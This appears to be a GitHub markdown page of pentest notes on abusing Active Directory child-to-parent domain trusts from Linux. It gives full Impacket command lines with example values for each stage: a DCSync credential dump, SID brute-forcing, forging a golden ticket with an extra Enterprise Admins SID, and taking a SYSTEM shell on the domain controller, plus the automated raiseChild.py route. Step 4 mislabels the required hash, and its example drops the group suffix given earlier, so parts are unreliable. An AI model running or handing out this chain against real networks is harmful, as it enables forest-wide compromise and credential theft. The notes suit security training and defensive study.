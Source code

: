 # Attacking Domain Trusts From Linux
## Preforming Manual Attack
To perform this attack from a **Linux attack host**, we  need to gather the following:

* The **KRBTGT hash** of the **child domain**
* The **Security Identifier (SID)** of the **child domain**
* The **Fully Qualified Domain Name (FQDN)** of the **child domain**
* The **SID of the Enterprise Admins group** in the **root domain**
* The **name of a target user** within the child domain (*note: the account does not need to actually exist*)

Once all of this data is collected, the attack can be carried out using the appropriate tools from the Linux environment (e.g., **Impacket**).

1. Get **KRBTGT hash** of the **child domain**
Performing DCSync with `secretsdump.py`
```shell
secretsdump.py <Child Domain>/<Compromised User>@<Compromised Tareget IP> -just-dc-user Child/krbtgt
secretsdump.py logistics.CORP.local/STEVE@10.10.10.211 -just-dc-user LOGISTICS/krbtgt
```
<img width="1987" height="380" alt="image" src="https://github.com/user-attachments/assets/cc213cc4-d5db-49e6-aadd-63545e2f4c77" />

2. Using lookupsid.py from the Impacket toolkit to perform SID brute forcing to find the **SID of the child domain**
```shell
lookupsid.py <Child Domain>/<Compromised User>@<Compromised Tareget IP> | grep "Domain SID"
lookupsid.py logistics.CORP.local/STEVE@10.10.10.211 | grep "Domain SID"
```
<img width="1884" height="210" alt="image" src="https://github.com/user-attachments/assets/ae3176db-1b5d-4082-9bd3-3349c1553de5" />

3. Get **SID of the Enterprise Admins group** in the **root domain**

```shell
lookupsid.py <Child Domain>/<Compromised User>@<DC Tareget IP> | grep -B12 "Enterprise Admins"
lookupsid.py logistics.CORP.local/STEVE@10.10.10.5 | grep -B12 "Enterprise Admins"
```
<img width="1534" height="498" alt="image" src="https://github.com/user-attachments/assets/e4f122ee-6c3e-462e-a155-77b5f2188898" />
SID of the Enterprise Admins will be Domain SID + CORP\Enterprise Admins (SidTypeGroup)
In Current Example = `S-1-5-21-3842939050-3880317879-2865463114-519`

4. Constructing a Golden Ticket using ticketer.py

```shell
ticketer.py -nthash <NTHash From Compromised User> -domain <Child Domain> -domain-sid <ChildDomain SID> -extra-sid <SID of the Enterprise Admins group> <Fake name of a target user>

ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.CORP.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114 AnubisXploit
```
<img width="2559" height="346" alt="image" src="https://github.com/user-attachments/assets/269fbc13-73ca-422e-8348-1a0d69638a72" />
<img width="1398" height="72" alt="image" src="https://github.com/user-attachments/assets/5d90b485-0912-4d35-8b16-fcb059e3ebcd" />

5. Setting the KRB5CCNAME Environment Variable
```shell
export KRB5CCNAME=AnubisXploit.ccache
```

6. Getting a SYSTEM shell using Impacket's psexec.py
```shell
psexec.py <Child Domain>/<Fake Created User>@<Domain Controller> -k -no-pass -target-ip <DC-IP>

psexec.py LOGISTICS.CORP.LOCAL/AnubisXploit@dc01.corp.local -k -no-pass -target-ip <DC-IP>
```

---

## Using Automated Impacket Tool
```shell
raiseChild.py -target-exec <Domain Controller IP> <Child Domain>/<Compromised User>

raiseChild.py -target-exec 10.10.10.5 logistics.CORP.local/STEVE
```


